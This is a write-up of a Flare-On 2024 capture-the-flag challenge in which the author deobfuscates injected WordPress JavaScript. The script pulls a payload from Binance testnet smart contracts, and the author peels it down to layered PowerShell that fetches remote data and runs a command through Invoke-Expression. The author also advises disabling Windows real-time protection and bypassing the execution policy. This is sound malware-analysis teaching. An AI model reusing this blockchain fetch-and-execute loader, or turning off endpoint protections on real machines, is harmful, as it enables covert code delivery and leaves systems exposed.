## Flare-On CTF 2024
# Challenge 08 : clearlyfake

```
I am also considering a career change myself but this beautifully broken JavaScript was injected on my WordPress site I use to sell my hand-made artisanal macaroni necklaces, 
not sure what’s going on but there’s something about it being a Clear Fake? 
Not that I’m Smart enough to know how to use it or anything but is it a Contract?

7zip archive password: flare
```

We are provided a 7zip file with a JavaScript file

The challenge description suggests that it has something to do with some kind of smart contract

The JS file is heavily obfuscated  
I found an "eval" call in the JS



1 trick for de-obfuscating JS is to find eval calls and replace all of them with console.log  
I replaced it, put "script" tags around the code and saved it as a html file  



Open the file in a browser and look at the console log (Developer Tools)



Here is the de-obfuscated JS

```javascript
const Web3 = require("web3");
const fs = require("fs");
const web3 = new Web3("BINANCE_TESTNET_RPC_URL");
const contractAddress = "0x9223f0630c598a200f99c5d4746531d10319a569";
async function callContractFunction(inputString) {
    try {
        const methodId = "0x5684cff5";
        const encodedData = methodId + web3.eth.abi.encodeParameters(["string"], [inputString]).slice(2);
        const result = await web3.eth.call({
            to: contractAddress,
            data: encodedData
        });
        const largeString = web3.eth.abi.decodeParameter("string", result);
        const targetAddress = Buffer.from(largeString, "base64").toString("utf-8");
        const filePath = "decoded_output.txt";
        fs.writeFileSync(filePath, "$address = " + targetAddress + "\n");

        const new_methodId = "0x5c880fcb";
        const blockNumber = 43152014;
        const newEncodedData = new_methodId + web3.eth.abi.encodeParameters(["address"], [targetAddress]).slice(2);
        const newData = await web3.eth.call({
            to: contractAddress,
            data: newEncodedData
        }, blockNumber);
        const decodedData = web3.eth.abi.decodeParameter("string", newData);
        const base64DecodedData = Buffer.from(decodedData, "base64").toString("utf-8");
        fs.writeFileSync(filePath, decodedData);
        console.log(`Saved decoded data to:${filePath}`)
    } catch (error) {
        console.error("Error calling contract function:", error)
    }
}

const inputString = "KEY_CHECK_VALUE";
callContractFunction(inputString);
```

It is making calls to the Binance TestNet  
There are 2 calls made by the code  
The first call sends some inputString and expects an Address to be returned  
The second call uses that address as a parameter and request data for a specific block number

## Setting up NodeJS to run

I setup an environment where I can run this script in Windows  
I installed [nodejs](https://nodejs.org/en/download/package-manager) with the instructions on their website  
I then had to initialize a npm project

```
mkdir web3-test
cd web3-test
npm init
npm install web3 dotenv

I can then run the JS file with 
node index.js
```

## The Contracts

The JS file specified a contract "[0x9223f0630c598a200f99c5d4746531d10319a569](https://testnet.bscscan.com/address/0x9223f0630c598a200f99c5d4746531d10319a569)"  
I looked at it in BscScan, remember to switch to the testnet



You can click on "Contract" to see the contract code



Unfortunately, the decompiler here did not work



Fortunately, I found another decompiler at [dedaub](https://app.dedaub.com/decompile) that worked 



Here is a copy of the [contract code](contract_9223.js)


The big if block is comparing our input string to "giV3_M3_p4yL04d! "  
Take note of the space at the end, this is because the script checks 16 characters but also checks that the string length must be 17

I had to make changes to the nodejs script to make it runnable   
I need to specify a proper [testnet RPC endpoint url](https://docs.bscscan.com/misc-tools-and-utilities/public-rpc-nodes)  
The original script was expecting the return value to be in Base64 but the actual return value is a normal String  
This is my modified code that works

```js
		// First Call
		const methodId = "0x5684cff5";
		const encodedData = methodId + web3.eth.abi.encodeParameters(["string"], ["giV3_M3_p4yL04d! "]).slice(2);
		const result = await web3.eth.call({ to: contractAddress, data: encodedData });
		console.log(result)
```

The correct address returned is  0x5324eab94b236d4d1456edc574363b113cebf09d

I repeated the same process for the contract [0x5324eab94b236d4d1456edc574363b113cebf09d](https://testnet.bscscan.com/address/0x5324eab94b236d4d1456edc574363b113cebf09d) and decompiled the [code with dedaub](contract_5234.js)



However, I had difficulties running the second call in the nodejs script  
I had to change a lot of the code for BSC to respond properly  
Here is the code that worked

```js
		// Second Call
        const new_methodId = "0x5c880fcb";
        const targetAddress = "0x5324eab94b236d4d1456edc574363b113cebf09d";
        const blockNumber = "latest";  // was 43152014
        const newEncodedData = new_methodId;
        const newData = await web3.eth.call({
            to: targetAddress,
            data: newEncodedData
        }, blockNumber);
        const decodedData = web3.eth.abi.decodeParameter("string", newData);
        const base64DecodedData = Buffer.from(decodedData, "base64").toString("utf-8");
        const filePath = "decoded_output2.txt";
        fs.writeFileSync(filePath, base64DecodedData);
        console.log(`Saved decoded data to:${filePath}`)
```

The output is Powershell code


## Powershell De-obfuscation


Same thing with Javascript, we want to find and replace all calls of "Invoke-Expression" or "iex" with "Write-Output" or "echo"



Run it in with powershell

> powershell -ep bypass psscript.ps1

Sometimes you get a warning like this



Since we know what we are doing, we can bypass this by disabling "Real Time Protection" in your Windows Security Settings

We get more obfuscated powershell



This time, the "iex" is near the end




Replace that with echo and run



The Powershell got a little bit more readable but it is still obfuscated



The next "iex" is right at the start of the script




Replace it with echo and run





Same deal, more readable but still obfuscated  
The next "iex" is at the end of the script




Replace with echo and run





Now we have clear Powershell

## Getting To the Flag

Here is the final clear Powershell Script

```powershell
Set-Variable -Name testnet_endpoint -Value (" ")
Set-Variable -Name _body -Value ('{"method":"eth_call","params":[{"to":"$address","data":"0x5c880fcb"}, BLOCK],"id":1,"jsonrpc":"2.0"}')
Set-Variable -Name resp -Value ((Invoke-RestMethod -Method 'Post' -Uri $testnet_endpoint -ContentType "application/json" -Body $_body).result)

# Remove the '0x' prefix
Set-Variable -Name hexNumber -Value ($resp -replace '0x', '')
# Convert from hex to bytes (ensuring pairs of hex characters)
Set-Variable -Name bytes0 -Value (0..($hexNumber.Length / 2 - 1) | ForEach-Object {
    Set-Variable -Name startIndex -Value ($_ * 2)
    Set-Variable -Name endIndex -Value ($startIndex + 1)
    [Convert]::ToByte($hexNumber.Substring($startIndex, 2), 16)
})

Set-Variable -Name bytes1 -Value ([System.Text.Encoding]::UTF8.GetString($bytes0))
Set-Variable -Name bytes2 -Value ($bytes1.Substring(64, 188))

# Convert from base64 to bytes
Set-Variable -Name bytesFromBase64 -Value ([Convert]::FromBase64String($bytes2))
Set-Variable -Name resultAscii -Value ([System.Text.Encoding]::UTF8.GetString($bytesFromBase64))
Set-Variable -Name hexBytes -Value ($resultAscii | ForEach-Object {
    '{0:X2}' -f $_  # Format each byte as two-digit hex with uppercase letters
})

Set-Variable -Name hexString -Value ($hexBytes -join ' ')
#Write-Output $hexString
Set-Variable -Name hexBytes -Value ($hexBytes -replace " ", "")

# Convert from hex to bytes (ensuring pairs of hex characters)
Set-Variable -Name bytes3 -Value (0..($hexBytes.Length / 2 - 1) | ForEach-Object {
    Set-Variable -Name startIndex -Value ($_ * 2)
    Set-Variable -Name endIndex -Value ($startIndex + 1)
    [Convert]::ToByte($hexBytes.Substring($startIndex, 2), 16)
})

Set-Variable -Name bytes5 -Value ([Text.Encoding]::UTF8.GetString($bytes3))
# Convert the key to bytes
Set-Variable -Name keyBytes -Value ([Text.Encoding]::ASCII.GetBytes("FLAREON24"))
# Perform the XOR operation
Set-Variable -Name resultBytes -Value (@())
for (Set-Variable -Name i -Value (0); $i -lt $bytes5.Length; $i++) {
    Set-Variable -Name resultBytes -Value ($resultBytes + ($bytes5[$i] -bxor $keyBytes[$i % $keyBytes.Length]))
}

# Convert the result back to a string (assuming ASCII encoding)
Set-Variable -Name resultString -Value ([System.Text.Encoding]::ASCII.GetString($resultBytes))

Set-Variable -Name command -Value ("tar -x --use-compress-program 'cmd /c echo $resultString > C:\\flag' -f C:\\flag")
Invoke-Expression $command
```

Here is what it does 

```
It sends a request to some BSC Endpoint (We need to figure out $address and a BLOCK blocknumber)
	- $address should be the same as what we have been using 0x5324eab94b236d4d1456edc574363b113cebf09d
	- Have to figure out BLOCK

The result from that call is then passed through the following transformation in order
- Remove the "0x" prefix
- Hex Decode
- Substring(64, 188)  # From pos 64 for length 188
- Base64 Decode
- Hex Decode
- XOR with "FLAREON24"
- Untar
```

So, what is a block number in this context?



A Block is something that describes a transaction  
If we look back at the contract page, there is actually a number of transactions on the contract  
There is a block number associated with each of them


I tried all the block numbers in both the Powershell script and the initial NodeJS script  
I was not able to get BSC to give me a reply

I then started looking around and noticed that when we click into a transaction, there are input data associated with it



If we pass this data to the decoding algorithm in the powershell script, we actually get plaintext back  
For quick testing, I set up the algorithm in cyberchef  
I also removed the first 10 characters from the input, to have it match properly with the algorithm



A few of them gave interesting messages




Finally, the transaction [0xdbf0e117fb3d4db0cd746835cfc4eb026612ac36a80f9f0f248dce061d90ae54](https://testnet.bscscan.com/tx/0xdbf0e117fb3d4db0cd746835cfc4eb026612ac36a80f9f0f248dce061d90ae54) with the block number 43148912 produced the flag



The flag is **N0t_3v3n_DPRK_i5_Th15_1337_1n_Web3@flare-on.com**
